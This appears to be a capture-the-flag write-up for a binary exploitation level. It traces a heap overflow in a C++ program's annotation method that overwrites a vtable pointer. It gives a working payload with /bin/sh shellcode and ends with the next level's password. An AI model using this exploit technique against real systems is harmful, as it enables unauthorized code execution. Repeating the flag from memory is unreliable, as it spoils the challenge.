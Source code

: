 ### Level 9

#### Basic Recon

![](./pics/1.png)

as you can see there's no call to `system` or some `fopen` with `print`. so probably I should insert some shell code via
that `memcpy`
and not obvious how input is being taken no `fgets` or something similar.
it seems that this binary was compiled from c++ how would I know? well you can see `__do_global_ctors_aux`

![](./pics/2.png)

as you can see our input is being copied to `0x0804a00c`, we may input our shell code so it'll be stored there, and somehow jump to it

#### Let's Debug

![](./pics/3.png)

##### First Look aka quick look

![](./pics/4.png)

as you can see there's call to `exit` and `_Znwj@plt` and at line `main+14` there's `jg` i believe it is comparing how many arguments are passed, it'll exit if we did not give any argument. and for `_Znwj@plt` it's being used like this

```c
_Znwj(
    0x6c, // 108
);
```

and it returns something like this `0x804a008`

![](./pics/5.png)

what is going inside

![](./pics/6.png)
![](./pics/7.png)
![](./pics/8.png)

well there's malloc and it's being called with input of `_Znwj` and the return value of it is just what malloc has returned

![](./pics/9.png)

after that there's call to `_ZN1NC2Ei`

```c
_ZN1NC2Ei(
    0x804a008, // return value of the first malloc
    0x5
);
```

![](./pics/10.png)
![](./pics/11.png)

as you can see value of eax is `0x804a008` what was returned by malloc.

![](./pics/12.png)

in that memory location we put the value `0x8048848` which is probably some pointer to some function this is just maybe for now. the memory look like this for now

![](./pics/13.png)

![](./pics/14.png)

and the value 0x5 is being stored at the end of the memory that was returned by malloc

![](./pics/15.png)

again there's another call to `_Znwj` with the same input as before `0x6c`

![](./pics/16.png)

and as you can see `malloc` has returned `0x804a078` which is almost right after the first malloc `0x804a078 - 0x804a008 = 112`, and first malloc has size of 108 that mean only 4 bytes are skipped, why this calculation for now no reason, just info if I needed it!

![](./pics/17.png)

again call to `_ZN1NC2Ei` but now we put the value 6 at the last location of the second malloc so the memory look something like this

![](./pics/18.png)

till this point I don't see something that I could influence, let's continue

as you can see from the picture below, there's only one call left `_ZN1N13setAnnotationEPc` aside from `call edx`, that must be the weak point.

![](./pics/19.png)

let's see now the stack before we call it

![](./pics/20.png)
![](./pics/21.png)
![](./pics/22.png)
![](./pics/23.png)
![](./pics/24.png)

so unitl this point `_ZN1N13setAnnotationEPc` will be called like this

```c
_ZN1N13setAnnotationEPc(
    0x0804a008,// first malloc
    0xbffff8fe // our input
);
```
let's see what is going on inside

![](./pics/25.png)

as you can see there's call to `strlen` with our input

![](./pics/26.png)

as you can see `edx` register will have the value of the first malloc

![](./pics/27.png)

now `edx` pointing to our malloc + 4

fast-forward to call `memcpy`

![](./pics/28.png)
![](./pics/29.png)

```c
memcpy(
    0x804a00c, // first malloc+4 and it's stored in edx
    0xbffff8fe, // pointer to our argument
    0x7
);
```

![](./pics/30.png)

so `edx` will point to our input, hold on I saw before that there's call to `edx` like this `call edx`, so if we somehow manage to put our shell in the memory and make edx point to it (our shell) we are good, so let's see how edx is being fetched

![](./pics/31.png)

let's go step by step now

![](./pics/32.png)
![](./pics/33.png)

![](./pics/34.png)
![](./pics/35.png)

as you can see from the pic above

`mov edx, DWORD PTR [eax]` which it says that go to location eax=0x8048848 and get what is there, and later will jump to it,
so we could overwrite that location with the value of the first malloc+4 why +4 because that's our input will be stored

maybe something like this

![](./pics/36.png)

where xx xx will be the start of shell code? actually that would be problem because there's another derefrenece

![](./pics/37.png)

so actually there should be another address well that's easy
we put there address that will point just right after it something like this

![](./pics/38.png)

#### Payload Construction

```py
python -c "print('\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')"
```
this is the first part and we need to fill the rest and then overwrite the desired location

the above stuff will be stored at location `0x0804a00c`, and we want to overwrite the location `0x0804a078` and until now we have 4 for the address  `0x0804a010` and 21 for the shell code so in total 25 bytes are filled now, we need to fill the rest, in total the gap between them is
`0x0804a078 - 0x0804a00c = 108` so we need to add padding of size 108 - 25 = 83, and then put the overwrite value.

```py
python -c "print('\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A'*83 + '\x0c\xa0\x04\x08')"
```

let's try it

![](./pics/39.png)
![](./pics/40.png)

#### Password For bonus0
```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```